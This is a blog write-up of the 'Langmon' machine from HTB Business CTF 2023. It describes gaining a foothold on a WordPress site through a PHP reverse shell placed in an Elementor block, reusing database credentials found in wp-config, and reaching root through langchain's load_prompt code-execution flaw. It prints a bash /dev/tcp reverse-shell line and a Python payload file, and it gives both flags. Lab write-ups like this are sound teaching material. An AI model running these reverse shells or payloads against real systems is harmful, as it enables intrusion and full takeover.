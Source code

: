 ```yaml
---
layout: post
title:  "HTB Business CTF 2023 - Langmon writeup"
date:   2023-07-17 00:00:00 +0300
categories: HTB_Business_CTF_2023 CTF FullPwn HTB
summary: Writeup for the Langmon challenge from HTB's Business CTF from 2023. This challenge involved exploiting a wordpress exploit and a langmon exploit.
---
```



Langmon was a challenge at the HTB Business CTF 2023 from the 'FullPwn' category.  
It involved a VM structured like a usual HTB machine with a user flag and a root flag.  
Its difficulty level was 'Very Easy' & it was mostly based on finding simple vulnerabilities and exploiting them.  

### Recon & identifying the service

After spawning the target, I only got an IP address and no specific port so the first step was to run a port scan & see what services are listening.  
There were 2 open ports:
- 22 - a ssh service
- 80 - a web app

The SSH service doesn't show any hint that it could be abused.  
So, I started with the web server.

### Exploring the web app

On port 80, I found a web page.

![The main web page]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/web_page.png){: .center-image}

After inspecting it, I noticed that it is built using Wordpress. I also found the wp-login page.  

![The login page]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/wp_login.png){: .center-image}

Running wpscan on this doesn't return anything interesting, so I continued by manually exploring this app.  

By accessing /wp-json/wp/v2/users, I could see that the only user is 'admin'. This might be useful if for a brute-force attack later (maybe?).  

![Wordpress users]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/wp_users.png){: .center-image}

I also found the sitemap for this web application.

![Wordpress users]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/sitemap.png){: .center-image}

The most interesting part here is the registration page. I went there and tried to create a new account.  

### Getting the foothold, uploading the webshell

![Registration]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/register.png){: .center-image}

After creating a new account, I was able to access the wordpress dashboard (as a regular user).  
However, I was unable to post anything without the admin reviewing it first.  

It looks like I could also create templates, not just posts.  
However, those also have to be admin-approved.
![Creating templates]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/templates_01.png){: .center-image}

While looking at the options available for a regular user when creating templates, I noticed that I can use the Elementor plugin in order to make it easier to create templates and pages.

![Using Elementor plugin]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/templates_02.png){: .center-image}

Also, that plugin allows for HTML / PHP blocks to be placed inside the pages or templates.  

![Inserting PHP]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/templates_03.png){: .center-image}

So ... what if I put a shell in there

![Preparing the reverse shell]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/shell_setup.png){: .center-image}

I pasted the contents of [this](https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/laudanum-0.8/php/php-reverse-shell.php) php reverse shell in there and clicked 'Apply'.  
It looks like my code gets executed after clicking 'Apply'. I could see that the shell was executed by checking on my listener.  

![First shell obtained]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/shell.png){: .center-image}

Now I have a shell as www-data.  
First, let's take a look at the wp-config file. It's always a good thing to check after obtaining access to a wordpress server. There might be some useful information in there.  

### Getting the user flag, credential reuse

![Wordpress credentials]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/wp_credentials.png){: .center-image}

The database password is in there. It might be useful for connecting to the DB.  
Or, it might be re-used in other places.  

Let's check out what are the users available on this server.

![Users on the server]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/users.png){: .center-image}

Only 'developer' has a homedir, so that's probably the user that I want to login as.  
Let's check if the DB password isn't reused as the user's password too.  

![Logging in as developer]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/user_login.png){: .center-image}

And it works. I could also get the user flag for this machine: **HTB{4lw4y5_upd473_y0ur_plu61n5}**

![User flag]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/user_flag.png){: .center-image}

I had the user's password so I checked if I could use sudo for anything (`sudo -l`).  

### Getting the root flag, langchain exploit

![Running sudo]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/sudo.png){: .center-image}

The 'developer' user can run /opt/prompt_loader.py as root.  

prompt_loader.py is a python script that imports [langchain](https://python.langchain.com/docs/get_started/introduction.html) and then calls load_prompt on a file specified by the user.  
The load_prompt method is known to be vulnerable and can be used for arbitrary code execution. More details on that can be seen [here](https://github.com/hwchase17/langchain/issues/4849).  

First, I took the PoC from github issue and tried using that as the script's input.
![Running the PoC]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/running_poc.png){: .center-image}

It works and it runs as root.  

Now I have to change the payload and use it to get a shell.  
I'm not sure if this script could spawn an interactive shell, so I tried with a reverse shell.  
A bash reverse shell (`bash -i >& /dev/tcp/10.10.14.182/1337 0>&1`) wouldn't work (maybe I forgot to escape something?) so I put it in a file and ran the file instead.

So my final payloads are:

/tmp/shell.sh
{% highlight bash %}
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.182/1337 0>&1
{% endhighlight %}

/tmp/prompt.py
{% highlight python %}
from langchain.output_parsers.list import CommaSeparatedListOutputParser
from langchain.prompts.prompt import PromptTemplate
_DECIDER_TEMPLATE = """Given the below input question and list of potential tables, output a comma separated list of the table names that may be neccessary to answer this question.

Question: {query}

Table Names: {table_names}

Relevant Table Names:"""

import os
os.system('id')
PROMPT = PromptTemplate(
    input_variables=["query", "table_names"],
    template=_DECIDER_TEMPLATE,
    output_parser=CommaSeparatedListOutputParser(),
)
{% endhighlight %}

![Preparing the payload]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/payload.png){: .center-image}

And after running this (`sudo /opt/prompt_loader.py /tmp/prompt.py`) I could see a connection on my listener.

![Getting a root shell]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/root_shell.png){: .center-image}

And now I had a root shell on this machine.

![Getting the root flag]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/langmon/root_flag.png){: .center-image}

And I got the root flag for this machine: **HTB{7h3_m4ch1n35_5p34k_w3_h34r}**